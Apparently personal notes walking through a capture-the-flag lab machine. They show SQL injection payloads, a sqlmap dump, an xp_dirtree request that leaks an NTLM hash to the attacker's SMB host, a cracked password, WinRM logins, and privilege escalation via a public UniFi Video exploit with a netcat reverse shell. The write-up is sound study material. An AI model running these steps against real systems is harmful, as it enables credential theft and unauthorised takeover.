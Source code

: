 # Enumeration
---
## Port 80/ 443
- ![[Pasted image 20250814065309.png]]
- PowerShellWebAccessTestWebsite
- Opening this on browser gives nothing, so we need gobuster
	- `gobuster dir -u http://10.10.10.104/ -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -t 100 -x txt,zip `
	- ![[Pasted image 20250814065417.png]]
	- Opening remote dir:
		![[Pasted image 20250814065352.png]]
- As HTTPS:
	- ![[Pasted image 20250814065459.png]]

## Enumerating mvc directory
---
- Clicking anything searches for a param in url:
	- ![[Pasted image 20250814070144.png]]
- ![[Pasted image 20250814070152.png]]
- Trying SQL Injection worked:
	- `http://10.10.10.104/mvc/Product.aspx?ProductSubCategoryId=2%20OR%201=1`
	- ![[Pasted image 20250814070537.png]]

- Let's use SQLMap to dump database:
	- `sqlmap 'http://10.10.10.104/mvc/Product.aspx?ProductSubCategoryId=2' --dump-all`
	- This reveals nothing good

## Getting NTLM hash with responder
---
- We can use MSSQL `dirtree` exec directly to obtain a NTLM hash:
- In burpsuite:
	- `GET /mvc/Product.aspx?ProductSubCategoryId=18%3bexec+master..xp_dirtree+'//10.10.16.2/share' HTTP/1.1`
	- ![[Pasted image 20250814212420.png]]
	- ![[Pasted image 20250814212516.png]]
- Cracking the hash:
	- ![[Pasted image 20250814212609.png]]
- `stacy` : `xNnWo6272k7x`

# Gaining Shell
---
- Testing these credentials using `netexec`:
	- `netexec winrm 10.10.10.104 -u stacy -p xNnWo6272k7x`
	- ![[Pasted image 20250814213636.png]]
- Evil-Winrm:
	- `evil-winrm -u stacy -p xNnWo6272k7x -i 10.10.10.104`
	- ![[Pasted image 20250814213658.png]]
Also on Windows Powershell on Browser:
---
- To login as user which is **NOT in domain**, append `.\`:
	- ![[Pasted image 20250815013652.png]]
	- 
# Enumeration
---
- Current directory has **unifivideo**:
	- ![[Pasted image 20250815013741.png]]
- Searching for exploits, reveal: https://www.exploit-db.com/exploits/43390
	- Ubiquiti UniFi Video 3.7.3 - Local Privilege Escalation
- ![[Pasted image 20250815013807.png]]

# Privilege Escalation
---
- Generate exe file using C language, because metasploit fails:
	- ![[Pasted image 20250815013901.png]]
- Upload `nc.exe` to `C:\Users\Stacy`
- Compile the exploit:
	- `x86_64-w64-mingw32-gcc taskkill.c -o taskkill.exe -mwindows`
- Upload to `C:\ProgramData\unifi-video\` directory
- Search for services related to Unifi:
	- Fails using `Get-Service` as we do not have permissions.
	- So, we need to search in Registry for installed applications:
		- `Get-ChildItem "HKLM:\SYSTEM\CurrentControlSet\Services" | Where-Object { $_.Name -match "unifi" }`
	- ![[Pasted image 20250815015940.png]]

- Start the listener and restart the service:
	- `nc -lnvp 9001` => On Attacker:
	- `Restart-Service -Name UniFiVideoService` => On Powershell
- ![[Pasted image 20250815020116.png]]
- ![[Pasted image 20250815020130.png]]